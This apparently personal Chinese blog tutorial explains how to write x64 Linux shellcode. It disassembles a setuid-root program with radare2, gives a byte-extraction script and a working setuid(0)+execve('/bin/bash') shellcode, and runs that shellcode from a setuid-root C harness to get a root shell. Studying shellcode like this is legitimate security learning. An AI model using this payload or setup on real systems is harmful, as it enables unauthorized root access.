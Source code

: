 ```yaml
---
layout: post
title: 'shellcode x64'
subtitle: 'shellcode编写'
tags: 安全 逆向 shellcode linux
---
```


### retsh.c

```bash
rz$ gcc retsh.c -static -o retsh
rz$ sudo chown root.root retsh
rz$ sudo chmod u+s retsh
rz$ ./retsh
root# whoami
root
```

### 分析生成的文件

```bash
rz$ r2 retsh

> s main
> pdf
|   sym.main ();
|           0x00400b4d      55             push rbp
|           0x00400b4e      4889e5         mov rbp, rsp
|           0x00400b51      bf00000000     mov edi, 0
|           0x00400b56      e8957f0400     call sym.__setuid    # setuid
|           0x00400b5b      ba00000000     mov edx, 0
|           0x00400b60      488d3589852b.  lea rsi, obj.buff           ; 0x6b90f0
|           0x00400b67      488d3d561409.  lea rdi, str.bin_bash       ; 0x491fc4 ; "/bin/bash"
|           0x00400b6e      e84d7f0400     call sym.execve      # execve

> s sym.__setuid
> pdf
|   sym.__setuid (int arg1);
|           0x00448af0      4883ec38       sub rsp, 0x38               ; '8'
|           0x00448af4      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=-1 ; '(' ; 40
|           0x00448afd      4889442428     mov qword [local_28h], rax
|           0x00448b02      31c0           xor eax, eax
|           0x00448b04      48833dc40427.  cmp qword [0x006b8fd0], 0
|       ,=< 0x00448b0c      752a           jne 0x448b38
|       |   0x00448b0e      b869000000     mov eax, 0x69               ; 'i' ; 105
|       |   0x00448b13      0f05           syscall

> s sym.execve
> pdf
|   sym.execve ();
|           0x00448ac0      b83b000000     mov eax, 0x3b               ; ';' ; 59
|           0x00448ac5      0f05           syscall
```

如上，编写相应的汇编代码

注：`/bin/bash`转换为16进制表示为`0x2f62696e2f62617368`，由于内存中是小端存储，将其反转为`0x687361622f6e69622f`，长度18，可以先将`0x68`压栈，在将`0x7361622f6e69622f`压栈，此时，`rsp`所指向的字符串为`/bin/bash`，将rdi指向此处即可。

### 提取shellcode

```shell
if [ $# != 1 ]; then
    echo "Usage: $1 obj.o"
else
    for i in `objdump -d $1 | grep "^[[:space:]]*[0-9a-f]\+:" | cut -f 2`; do
        echo -n \\x$i
    done
    echo
fi
```

在提取之前先观察shellcode，会发现很多00字符，需要进行修改过滤掉这些怀字符，如下：

- 修改前：
    ![修改前](/assets/img/md/2018-07-12-735435745.png)
- 修改后：
    ![修改后](/assets/img/md/2018-07-12-4106904479.png)

之后提取shellcode:

`
\x48\x31\xff\x31\xc0\xb0\x69\x0f\x05\x48\x31\xc0\xb0\x68\x50\x48\xb8\x2f\x62\x69\x6e\x2f\x62\x61\x73\x50\x48\x89\xe7\x48\x31\xc0\x50\x48\x89\xe0\x50\x48\x89\xe6\x31\xd2\x31\xc0\xb0\x3b\x0f\x05
`

### 验证

为了验证shellcode可以编写一个简单的c程序：

```C
#include<stdio.h>

char* shellcode = "\x48\x31\xff\x31\xc0\xb0\x69\x0f\x05"
"\x48\x31\xc0\xb0\x68\x50\x48\xb8\x2f\x62\x69"
"\x6e\x2f\x62\x61\x73\x50\x48\x89\xe7\x48\x31\xc0\x50\x48"
"\x89\xe0\x50\x48\x89\xe6\x31\xd2\x31\xc0\xb0\x3b\x0f\x05";

void main(){
    puts("shellcode ～～～");
    ((void (*)(void))shellcode)(); //将shellcode当作函数执行
}
```

```bash
rz$ gcc shell.c -o shell.out
rz$ sudo chown root.root shell.out
rz$ sudo chmow u+s shell.out
rz$ ./shell.out
root# whoami
root
```
